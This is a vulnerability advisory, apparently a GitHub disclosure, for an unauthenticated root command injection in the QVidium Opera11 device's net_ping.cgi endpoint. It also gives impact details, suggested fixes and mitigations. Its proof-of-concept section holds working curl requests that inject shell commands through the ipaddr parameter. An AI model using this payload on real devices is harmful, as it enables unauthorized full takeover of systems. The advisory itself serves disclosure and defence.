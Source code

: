# QVidium Opera11 Remote Code Execution (RCE) Vulnerability

## Description
The **QVidium Opera11** device (firmware version **2.9.0-Ax4x-opera11**) is vulnerable to **Remote Code Execution (RCE)** due to improper input validation on the `/cgi-bin/net_ping.cgi` endpoint.  
An attacker can exploit this vulnerability by sending a specially crafted GET request with a malicious parameter to inject arbitrary commands. These commands are executed with **root privileges**, allowing attackers to gain full control over the device. This poses a significant security risk to any device running this software.

---

## Vendor Information
- **Vendor**: QVidium  
- **Vendor Homepage**: [QVidium](https://qvidium.tv/)

---

## Affected Product(s)/Code Base
- **Product**: QVidium Opera11  
- **Firmware/Software Version Affected**:
  - **System Serial Number**: GJ4113D0597141  
  - **Software Version**: 2.9.0-Ax4x-opera11  
  - **Kernel Version**: 2.6.23.17_stm23_0125-amino  
  - **Application Version**: QVidium IP Proxy v1.0.0-10 (Sun Sep 15 23:11:05 PDT 2013)  

---

## Vulnerable Endpoints
- `/cgi-bin/net_ping.cgi`

---

## Attack Type
- **Type**: Remote Code Execution (RCE)  
- **Classification**: Command Injection  

---

## Impact
### Severity: **High**  
### Description:
- The QVidium Opera11 device is vulnerable to **Remote Code Execution (RCE)** due to improper input validation on the `/cgi-bin/net_ping.cgi` endpoint.  
- An attacker can send a GET request with a specially crafted parameter to inject arbitrary commands into the system.  
- These commands will be executed with **root privileges**, leading to full compromise of the device.  

### Affected Component(s):
- **Command Execution**: Unvalidated user input in `/cgi-bin/net_ping.cgi` leading to RCE.  
- **Privilege Escalation**: The command is executed with root privileges.  

---

## Attack Vector(s)
- **Access Method**: Remote, over HTTP  
- **Authentication Requirement**: None (unauthenticated)  
- **Exploit Complexity**: Low (requires only a crafted URL)  

---

## Proof of Concept (PoC)
### Exploit: Remote Command Injection via `/cgi-bin/net_ping.cgi`

### Steps to Reproduce:
1. Identify a vulnerable device running the QVidium Opera11 software.  
2. Send the following GET request with the `ipaddr` parameter manipulated to inject a malicious command:

```bash
curl '{target}/cgi-bin/net_ping.cgi?ipaddr=127.0.0.1%5C%5C%26{command}%22'
```
- **Where:
  - **{target} = IP address or domain name of the vulnerable device
  - **{command} = Desired shell command
- **Example (to run whoami command):
```bash
curl 'http://<target-ip>/cgi-bin/net_ping.cgi?ipaddr=127.0.0.1\\&whoami%22'
```
- **This request will return the result of the injected command executed with root privileges.

---

## PoC Video
https://github.com/user-attachments/assets/5f71661a-89bc-4adb-a0c6-b0efb8542045

---

## Vulnerability Type Info
- **Vulnerability Type**:
  - Command Injection  
  - Remote Code Execution (RCE)  
- **CWE-ID**:
  - [CWE-78](https://cwe.mitre.org/data/definitions/78.html) - Improper Neutralization of Special Elements used in an OS Command (Command Injection)  
  - [CWE-94](https://cwe.mitre.org/data/definitions/94.html) - Improper Control of Generation of Code ('Code Injection')  

---

## Impact Info
- **Impact Type**:
  - **Unauthorized Access**: The attacker can execute arbitrary commands on the vulnerable device with root privileges.  
  - **Privilege Escalation**: Attackers can perform any command that would be available to the root user.  
  - **Full Device Compromise**: Full control of the device can be gained remotely.  

---

## Suggested Fixes
### 1. Input Validation
- Properly sanitize and validate all user inputs before passing them to system commands.  
- Implement a **whitelist approach** for allowed values in user inputs and block special characters like `&`, `|`, `;`, etc.  

### 2. Least Privilege Principle
- Ensure that the web server or backend process running the commands does **not run with root privileges**.  
- Use the principle of least privilege for processes to limit the damage caused by a potential exploit.  

### 3. Use of Prepared Statements
- Avoid direct execution of shell commands based on user input.  
- Use system APIs or libraries designed to safely interact with system commands, such as `subprocess.run()` in Python.  

### 4. Security Patches
- Update the firmware and software to a secure version that addresses this vulnerability.  

---

## Mitigation & Workarounds
Until a patch is released, administrators should:  
- **Block external access** to the `/cgi-bin/net_ping.cgi` endpoint via firewalls or network segmentation.  
- **Restrict access** to management interfaces to trusted IPs only.  
- **Monitor logs** for unusual behavior or attempts to exploit this vulnerability.  
